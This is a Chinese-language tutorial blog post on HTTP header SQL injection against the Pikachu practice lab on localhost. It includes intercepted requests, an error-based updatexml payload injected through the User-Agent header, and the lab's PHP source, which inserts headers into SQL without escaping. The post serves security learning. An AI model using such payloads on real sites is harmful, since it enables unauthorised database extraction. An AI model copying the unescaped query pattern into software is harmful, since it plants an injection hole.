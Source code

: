 ```yaml
---
layout: post
title: "Http Header 注入"
date:   2024-9-29
tags: [SQL注入, CTF, WEB]
comments: true
author: MK-KM1542
---
```


有些时候，后台开发人员为了验证客户端头信息(比如常用的 cookie 验证)或者通过 http header 头信息获取客户端的一些信息，比如 useragent、accept 字段等等，会**对客户端的 http header 信息进行获取并使用 SQL 进行处理**，如果此时没有足够的安全考虑则可能会导致基于 http header 的 SQL Inject 漏洞。😨
![sql_header_1](https://i-blog.csdnimg.cn/blog_migrate/27fcfb3e0a10a812b7d791824968e014.png)
如图所示，后台记录了

- ip
- user agent
- http accept
- 端口

用**Brup Suite**抓包，发送到 Repeater 模块，进行下一步操作
数据包如下：

```http
GET /vul/sqli/sqli_header/sqli_header.php HTTP/1.1
Host: localhost
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.95 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Not?A_Brand";v="8", "Chromium";v="108"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Referer: http://localhost/vul/sqli/sqli_header/sqli_header_login.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ant[uname]=admin; ant[pw]=10470c3b4b1fed12c3baac014be15fac67c6e815; PHPSESSID=mqh6eiafgudgijl5g1mb8hpbn0
Connection: close
```

😋 来尝试修改一下

```http
User-Agent: 114514
Accept: 1919810
```

响应：

```
朋友，你好，你的信息已经被记录了:点击退出
你的ip地址:127.0.0.1
你的user agent:114514
你的http accept:1919810
你的端口(本次连接):tcp11427
```

🤮 好臭的响应结果
可以看到数据包中的 user-agent、accept 字段被获取，可能存在注入点
🤔 将 User-Agent 字段改成单引号`'`：

```http
User-Agent: '
```

🥵 发送请求，报错了

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,imag' at line 1
```

🧐ok 了，现在来分析一下，猜测这种情况是

- 一次获取了多个数据，
- 每个数据用单引号`'`包裹，
- 应该和**_insert、update 注入.md_**类似，
- 可能使用了`values`函数

```sql
values('$data1','$data2','$data3','$data4','$data5')
```

选择其中一个 data 位置进行注入
构造以下命令：

```sql
insert into 表名(列名1,列名2,列名3,列名4) values('1' or updatexml(1,concat(0x7e,database()),0) or '','数据2','数据3','数据4');
```

数据 1 的位置就是 payload

```sql
# payload:
1' or updatexml(1,concat(0x7e,database()),0) or '
```

修改数据包，把 payload 放到 User-Agent 字段：

```http
User-Agent: 1' or updatexml(1,concat(0x7e,database()),0) or '
```

![](https://img2023.cnblogs.com/blog/1779065/202212/1779065-20221203110842711-1465449530.png)

- `or`判断会把左右的表达式先执行一遍
- 执行`updatexml()`函数时利用函数报错获取信息
- 把`database()`的位置换成你想要的命令

放一下原代码`pikachu-master\vul\sqli\sqli_header\sqli_header.php`：

```php
$is_login_id=check_sqli_login($link);
if(!$is_login_id){
    header("location:sqli_header_login.php");
}
// $remoteipadd=escape($link, $_SERVER['REMOTE_ADDR']);
// $useragent=escape($link, $_SERVER['HTTP_USER_AGENT']);
// $httpaccept=escape($link, $_SERVER['HTTP_ACCEPT']);
// $httpreferer=escape($link, $_SERVER['HTTP_REFERER']);


//直接获取前端过来的头信息,没人任何处理,留下安全隐患
$remoteipadd=$_SERVER['REMOTE_ADDR'];
$useragent=$_SERVER['HTTP_USER_AGENT'];
$httpaccept=$_SERVER['HTTP_ACCEPT'];
$remoteport=$_SERVER['REMOTE_PORT'];

//这里把http的头信息存到数据库里面去了，但是存进去之前没有进行转义，导致SQL注入漏洞
$query="insert httpinfo(userid,ipaddress,useragent,httpaccept,remoteport) values('$is_login_id','$remoteipadd','$useragent','$httpaccept','$remoteport')";
$result=execute($link, $query);


if(isset($_GET['logout']) && $_GET['logout'] == 1){
    setcookie('ant[uname]','',time()-3600);
    setcookie('ant[pw]','',time()-3600);
    header("location:sqli_header_login.php");
}
```
